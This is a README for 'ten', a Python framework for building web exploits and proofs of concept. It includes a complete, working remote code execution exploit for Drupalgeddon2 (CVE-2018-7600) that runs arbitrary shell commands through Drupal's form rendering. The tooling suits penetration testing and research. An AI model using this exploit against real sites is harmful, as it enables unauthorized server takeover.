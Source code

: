 # ten

My (small) web exploit framework. I got tired of writing standard code over and over again,
so I made this. Makes code more concise, clearer, faster to write. Might be useful to you.

It helps with HTTP interactions, handling user input, providing clear output, handling files, and running shell commands.

Useful to build POCs, and convert them into full, documented exploits in a blink.

# Documentation

Documentation is available here: [https://cfreal.github.io/ten/](https://cfreal.github.io/ten/).

It includes tutorials, quickstart guides, and the Python documentation.

# Features

* Input/output
    * Arguments to the main function are automatically mapped to `argparse`
        * They can hold a default value, get documented, etc.
    * Output is clear and readable
* HTTP
    * Improves the standard `requests` API
    * Parse HTTP responses easily (regex, CSS selectors, forms)
    * Turn BURP on and off in a blink
    * Concurrency
    * Lots more.
* Data conversion
    * Transform data: base64, hashing, query string, CSV, JSON, ...
    * Available as a tool: `tf`
* ...


# Installation

```
$ git clone https://github.com/cfreal/ten.git
$ cd ten
$ poetry install
$ poetry shell
```

# Example

Functional, fully documented Drupalgeddon2 exploit:

```python
#!/usr/bin/env python3

from ten import *


@entry
@arg("url", "URL of the Drupal website to exploit")
@arg("command", "Command to run on the server. Defaults to `id`")
def main(url, command="id"):
    """Exploit for Drupalgeddon2 (CVE-2018-7600)."""

    session = ScopedSession(url)
    response = session.post(
        url,
        params={
            "q": "user/password",
            "name[#post_render][]": "passthru",
            "name[#markup]": command,
            "name[#type]": "markup",
        },
        data={"form_id": "user_pass", "_triggering_element_name": "name"},
    )
    try:
        form = response.form(id="user_pass")
    except FormNotFoundError:
        failure("Unable to find form in response")
    
    build_id = form["form_build_id"]
    response = session.post(
        url,
        params={
            "q": f"file/ajax/name/#value/{build_id}"
        },
        data={"form_build_id": build_id},
    )
    result = response.re.search(r"^(.*)\[{", flags=re.S)
    
    assume(result, "Unable to find command result in response")

    msg_success("Exploit done")
    msg_info("Command result:")

    msg_print(result.group(1))


main()
```
